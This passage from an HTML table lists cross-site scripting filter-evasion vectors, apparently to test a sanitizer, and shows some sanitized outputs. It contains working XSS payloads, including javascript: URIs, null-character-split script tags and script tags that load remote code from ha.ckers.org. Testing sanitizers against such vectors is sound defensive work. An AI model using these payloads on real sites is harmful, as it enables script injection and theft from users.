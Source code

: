 )
"
&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Null Chars 1</td>
<td>
<pre>&lt;IMG »
SRC=java**\0**script:alert("XSS") »
&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Null Chars 2</td>
<td>
<pre>&amp;&lt;SCR**\0**IPT&gt;alert("XSS")&lt;/SCR**\0** »
IPT&gt;</pre>
</td>
<td>
<pre>&amp;amp;</pre>
</td>
<td>
<div>&amp;</div></td>
</tr>
<tr>
<td>Spaces/Meta Chars</td>
<td>
<pre>&lt;IMG SRC=" &amp;#14;  »
javascript:alert('XSS');"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Non-Alpha/Non-Digit</td>
<td>
<pre>&lt;SCRIPT/XSS »
SRC="http://ha.ckers.org/xss »
.js"&gt;&lt;/SCRIPT&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Non-Alpha/Non-Digit Part 2</td>
<td>
<pre>&lt;BODY »
onload!#$%&amp;()*~+-_.,:;?@[/|\ »
]^`=alert("XSS")&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>No Closing Script Tag</td>
<td>
<pre>&lt;SCRIPT »
SRC=http://ha.ckers.org/xss. »
js</pre>